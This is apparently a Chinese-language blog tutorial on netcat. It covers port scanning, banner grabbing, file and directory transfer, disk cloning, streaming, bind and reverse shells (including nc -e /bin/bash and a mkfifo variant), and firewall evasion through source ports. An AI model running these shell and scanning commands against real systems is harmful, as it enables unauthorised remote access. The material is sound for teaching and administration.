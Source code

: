 ```yaml
---
title: 'netcat skills '
date: 2018-09-23 18:24:25
tags: Linux
---
```


# Linux netcat 命令实例：

## 端口扫描

端口扫描经常被系统管理员和黑客用来发现在一些机器上开放的端口，帮助他们识别系统中的漏洞。

``
$nc -z -v -n 172.31.100.7 21-25
``

可以运行在TCP或者UDP模式，默认是TCP，-u参数调整为udp.

z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换

v 参数指使用冗余选项

n 参数告诉netcat 不要使用DNS反向查询IP地址的域名

这个命令会打印21到25 所有开放的端口。Banner是一个文本，Banner是一个你连接的服务发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。

一旦你发现开放的端口，你可以容易的使用netcat 连接服务抓取他们的banner。

``
$ nc -v 172.31.100.7 21
``

netcat 命令会连接开放端口21并且打印运行在这个端口上服务的banner信息。

<!-- more --> >

## Chat Server

假如你想和你的朋友聊聊，有很多的软件和信息服务可以供你使用。但是，如果你没有这么奢侈的配置，比如你在计算机实验室，所有的对外的连接都是被限制的，你怎样和整天坐在隔壁房间的朋友沟通那？不要郁闷了，netcat提供了这样一种方法，你只需要创建一个Chat服务器，一个预先确定好的端口，这样子他就可以联系到你了。

Server
``
$nc -l 1567
``
netcat 命令在1567端口启动了一个tcp 服务器，所有的标准输出和输入会输出到该端口。输出和输入都在此shell中展示。

Client
``
$nc 172.31.100.7 1567
``
不管你在机器B上键入什么都会出现在机器A上。

## 文件传输

大部分时间中，我们都在试图通过网络或者其他工具传输文件。有很多种方法，比如FTP,SCP,SMB等等，但是当你只是需要临时或者一次传输文件，真的值得浪费时间来安装配置一个软件到你的机器上嘛。假设，你想要传一个文件file.txt 从A 到B。A或者B都可以作为服务器或者客户端，以下，让A作为服务器，B为客户端。

Server
``
$nc -l 1567 < file.txt
``
Client
``
$nc -n 172.31.100.7 1567 > file.txt
``
这里我们创建了一个服务器在A上并且重定向netcat的输入为文件file.txt，那么当任何成功连接到该端口，netcat会发送file的文件内容。

在客户端我们重定向输出到file.txt，当B连接到A，A发送文件内容，B保存文件内容到file.txt.

没有必要创建文件源作为Server，我们也可以相反的方法使用。像下面的我们发送文件从B到A，但是服务器创建在A上，这次我们仅需要重定向netcat的输出并且重定向B的输入文件。

B作为Server

Server
``
$nc -l 1567 > file.txt
``
Client
``
nc 172.31.100.23 1567 < file.txt
``
## 目录传输

发送一个文件很简单，但是如果我们想要发送多个文件，或者整个目录，一样很简单，只需要使用压缩工具tar，压缩后发送压缩包。

如果你想要通过网络传输一个目录从A到B。

Server
``
$tar -cvf – dir_name | nc -l 1567
``
Client
``
$nc -n 172.31.100.7 1567 | tar -xvf -
``
这里在A服务器上，我们创建一个tar归档包并且通过-在控制台重定向它，然后使用管道，重定向给netcat，netcat可以通过网络发送它。

在客户端我们下载该压缩包通过netcat 管道然后打开文件。

如果想要节省带宽传输压缩包，我们可以使用bzip2或者其他工具压缩。

Server
``
$tar -cvf – dir_name| bzip2 -z | nc -l 1567
``
通过bzip2压缩

Client
``
$nc -n 172.31.100.7 1567 | bzip2 -d |tar -xvf -
``
使用bzip2解压

## 加密你通过网络发送的数据

如果你担心你在网络上发送数据的安全，你可以在发送你的数据之前用如mcrypt的工具加密。

服务端
``
$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
``
使用mcrypt工具加密数据。

客户端
``
$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567
``
使用mcrypt工具解密数据。

以上两个命令会提示需要密码，确保两端使用相同的密码。

这里我们是使用mcrypt用来加密，使用其它任意加密工具都可以。

## 流视频

虽然不是生成流视频的最好方法，但如果服务器上没有特定的工具，使用netcat，我们仍然有希望做成这件事。

服务端
``
$cat video.avi | nc -l 1567
``
这里我们只是从一个视频文件中读入并重定向输出到netcat客户端
``
$nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -
``
这里我们从socket中读入数据并重定向到mplayer。

## 克隆一个设备

如果你已经安装配置一台Linux机器并且需要重复同样的操作对其他的机器，而你不想在重复配置一遍。不在需要重复配置安装的过程，只启动另一台机器的一些引导可以随身碟和克隆你的机器。

克隆Linux PC很简单，假如你的系统在磁盘/dev/sda上

Server
``
$dd if=/dev/sda | nc -l 1567
``
Client
``
$nc -n 172.31.100.7 1567 | dd of=/dev/sda
``
dd是一个从磁盘读取原始数据的工具，我通过netcat服务器重定向它的输出流到其他机器并且写入到磁盘中，它会随着分区表拷贝所有的信息。但是如果我们已经做过分区并且只需要克隆root分区，我们可以根据我们系统root分区的位置，更改sda 为sda1，sda2.等等。

## 打开一个shell

我们已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

Server
``
$nc -l 1567 -e /bin/bash -i
``
Client
``
$nc 172.31.100.7 1567
``
这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server
``
$mkfifo /tmp/tmp_fifo

$cat /tmp/tmp_fifo | /bin/sh -i 2>1 | nc -l 1567 > /tmp/tmp_fifo
``
这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2\>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client
``
$nc -n 172.31.100.7 1567
``
你会得到一个shell提示符在客户端

反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端
``
$nc -l 1567
``
在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端
``
$nc 172.31.100.7 1567 -e /bin/bash
``
现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

# 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端
``
$nc -l 1567
``
客户端
``
$nc 172.31.100.7 1567 -p 25
``
使用1024以内的端口需要root权限。

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。
